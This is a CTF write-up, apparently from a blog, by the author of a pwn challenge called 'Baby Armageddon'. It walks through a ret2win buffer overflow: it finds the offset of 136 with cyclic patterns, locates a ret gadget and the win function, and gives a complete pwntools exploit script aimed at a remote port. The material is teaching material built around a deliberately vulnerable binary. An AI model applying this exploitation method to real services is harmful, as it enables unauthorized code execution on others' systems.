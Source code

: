 ```yaml
---
title: "Badge to Breach: ICS Cyber Siege Official Writeup"
pubDate: 2025-07-19
description: "As team HCS, we took on a project for RE:HACK to make CTF challenges for their recent event! I authored one Pwn challenge, Baby Armageddon! Nothing too special, it's pretty much just a basic buffer overflow."
tags:
  - ctf
  - pwn
  - ret2win
---
```



## Baby Armageddon

> There has been news of a new company called "Baby Armageddon Corp." and they seem to have the capabilities of destroying the entire world with one single attack on Earth. But there has been rumors that the company is ran by literal babies and they have really terrible security. Can you break through and obtain their Armageddon device through their QnA server?
>
> `nc <ip> <port>`

<PostFileDownload name="2025-icsb2b-baby_armageddon.zip" />

Simple ret2win challenge, use cyclic patterns to find the RIP. In this example we use pwndbg:

```
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```

After generating a cyclic pattern, we can run the program and input the pattern:

```
What is your question?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```

After the program returns a segmentation fault we can find the RIP offset:

```
pwndbg> info frame
Stack level 0, frame at 0x7fffffffdd68:
 rip = 0x4012e2 in question; saved rip = 0x6161616161616172
pwndbg> cyclic -l 0x6161616161616172
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

After getting the RIP offset we need to also perform stack alignment with a ROPgadget that only ends with "ret", we can use ROPgadget for this:

```sh
ROPgadget --binary armageddon_device | grep ': ret'
0x000000000040101a : ret
```

After that, we also need the win function, which is called `armageddon()`:

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010b0  puts@plt
0x00000000004010c0  fclose@plt
0x00000000004010d0  setbuf@plt
0x00000000004010e0  printf@plt
0x00000000004010f0  fgets@plt
0x0000000000401100  gets@plt
0x0000000000401110  fopen@plt
0x0000000000401120  exit@plt
0x0000000000401130  _start
0x0000000000401160  _dl_relocate_static_pie
0x0000000000401170  deregister_tm_clones
0x00000000004011a0  register_tm_clones
0x00000000004011e0  __do_global_dtors_aux
0x0000000000401210  frame_dummy
0x0000000000401216  armageddon
0x00000000004012a5  question
0x00000000004012e3  main
0x0000000000401344  _fini
```

Win function located at `0x401216`. Now to just combine this into one solver script, which expanded on with my personal custom pwntools template.

I used the built-in pwntools function to speed up the gadget and win function address finding, but you can actually replace them with the previously mentioned addresses and it would definitely work the same:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'armageddon_device')
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'localhost'
port = int(args.PORT or 13337)

def start_local(argv=[], *a, **kw):
	'''Execute the target binary locally'''
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
	'''Connect to the process on the remote host'''
	io = connect(host, port)
	if args.GDB:
		gdb.attach(io, gdbscript=gdbscript)
	return io

def start(argv=[], *a, **kw):
	'''Start the exploit against the target.'''
	if args.LOCAL:
		return start_local(argv, *a, **kw)
	else:
		return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *question+51
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

def exploit():
	io = start()

	rop = ROP(exe)

	payload = flat(
		cyclic(136, n=8),
		rop.find_gadget(['ret']).address, #0x40101a
		exe.sym['armageddon']	#0x401216
	)
	io.sendlineafter(b'? ', payload)

	io.interactive()

if __name__ == "__main__":
	exploit()
```

Just run the script with the correct remote address and you will get the flag.
